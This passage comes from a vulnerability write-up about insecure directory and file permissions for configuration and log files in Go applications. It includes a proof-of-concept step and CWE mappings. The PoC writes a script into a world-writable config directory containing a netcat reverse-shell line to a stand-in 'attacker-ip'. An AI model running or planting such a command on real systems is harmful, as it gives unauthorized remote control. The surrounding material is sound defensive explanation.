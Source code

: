 Step 4: Potential for Further Exploitation (Leveraging Directory Permissions)

Since /app/config is world-writable (drwxrwxrwx), the attacker can create files in it.

```Bash

attacker_user@server:~$ echo '#!/bin/bash' > /app/config/malicious_script.sh
attacker_user@server:~$ echo 'nc -e /bin/bash attacker-ip 4444' >> /app/config/malicious_script.sh # Example reverse shell
attacker_user@server:~$ chmod +x /app/config/malicious_script.sh
```

*Outcome*: If any process (e.g., a cron job running as root, or the application itself if it's designed to execute scripts from this directory based on some configuration) executes scripts from `/app/config`, the attacker could achieve remote code execution with the privileges of that process.

This PoC illustrates that the impact of improper permissions is not just theoretical access but can lead to concrete outcomes like data theft, configuration manipulation, log tampering, and potentially further system compromise. The effectiveness and severity of the exploit depend heavily on what sensitive information is stored in the affected files and how the application utilizes them. For instance, reading a config file with a publicly known, non-sensitive API key has minimal impact, whereas reading one with database superuser credentials can be catastrophic. Similarly, modifying a config file that only changes a UI theme is less severe than modifying one that disables authentication checks.

## **Risk Classification**

The vulnerability of improper directory and file permissions for configuration and log resources in Golang applications can be classified using standard industry taxonomies, which helps in understanding its nature and prioritizing remediation efforts.

**Common Weakness Enumeration (CWE) Mapping**:

- **CWE-276: Incorrect Default Permissions**: This is a very direct mapping. The vulnerability often arises because the default permissions assigned during the creation of files or directories by the Golang application are too lax, granting wider access than necessary. For example, using `os.MkdirAll` with `0777` or `os.OpenFile` with `0666` sets insecure default permissions for those specific resources.

- **CWE-732: Incorrect Permission Assignment for Critical Resource**: Configuration files (containing credentials, API keys, system settings) and log files (containing PII, operational data, error details) are undoubtedly critical resources. Assigning overly permissive access (e.g., world-readable or world-writable) to them falls squarely under this CWE. The OWASP Web Security Testing Guide also references CWE-732 in the context of testing file permissions.
    
- **CWE-284: Improper Access Control**: File system permissions are a fundamental mechanism of access control. When these permissions are set incorrectly, it leads to improper access control, allowing unauthorized actors to perform actions (read, write, execute) that they should be denied.
    
- **CWE-532: Insertion of Sensitive Information into Log File**: While this CWE primarily deals with the act of logging sensitive data, improper permissions that make such logs readable by unauthorized parties exacerbate the risk. If logs containing sensitive information are world-readable due to `dir-perms-config-logs`, the impact of CWE-532 is significantly amplified.

The presence of multiple relevant CWEs underscores that this vulnerability touches upon several fundamental security principles, including secure defaults, the principle of least privilege, and robust access control for critical system components.
